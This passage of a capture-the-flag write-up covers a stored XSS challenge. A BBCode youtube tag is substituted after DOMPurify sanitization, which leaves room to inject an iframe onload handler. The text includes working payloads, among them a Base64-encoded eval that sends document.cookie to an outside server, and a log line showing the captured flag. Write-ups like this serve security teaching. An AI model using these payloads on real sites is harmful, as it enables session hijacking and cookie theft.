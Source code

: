 ```js
    const html = renderBBCode(data);
    const sanitized = purify.sanitize(html);
    // do this after sanitization because otherwise iframe will be removed
    return sanitized.replaceAll(
        /\[youtube\](.+?)\[\/youtube\]/g,
        '<iframe sandbox="allow-scripts" width="640px" height="480px" src="https://www.youtube.com/embed/$1" frameborder="0" allowfullscreen></iframe>'
    );
};

```

With [cURL](https://curl.se/), we can send a request to the `/update` endpoint (with the correct CSRF token) to set the bio to a custom value.

With this, we need to craft a payload using the potentially vulnerable `youtube` BBCode element.

If we just set it to a double quote, we can see that the string doesn't get sanitized properly. This means we can inject a custom event handler in the `<iframe>`

```
bio=[youtube]"[/youtube]>
```

If we try this:

```
bio=[youtube]\"onload=alert(1)>[/youtube]
```

We can also see that the browser creates a popup window. Perfect.

We now need to exfiltrate the cookie, by sending a web request to a server we control.

This should work, right?

```
bio=[youtube]\"onload=fetch('https://nihil.gay/${document.cookie}')>[/youtube]
```

Apparently, the curly brackets get sanitized out, and we also cannot use any other sort of string concatenation here.

A quick workaround is to Base64-encode our payload, and then evaluate it, thus being able to avoid the sanitizer.

```
[youtube]\"onload=eval(atob('ZmV0Y2goJ2h0dHBzOi8vbmloaWwuZ2F5LycgKyBkb2N1bWVudC5jb29raWUp'))>[/youtube]
```

If we now use the adminbot and go check the server logs, we can see that a new HTTP request has been made, containing our flag:

```
[03/Mar/2024:13:04:48.870] GET https://nihil.gay/flag=osu%7Bbut_all_i_w4nted_to_do_was_w4tch_y0utube...%7D HTTP/2.0 404
```

## Conclusion
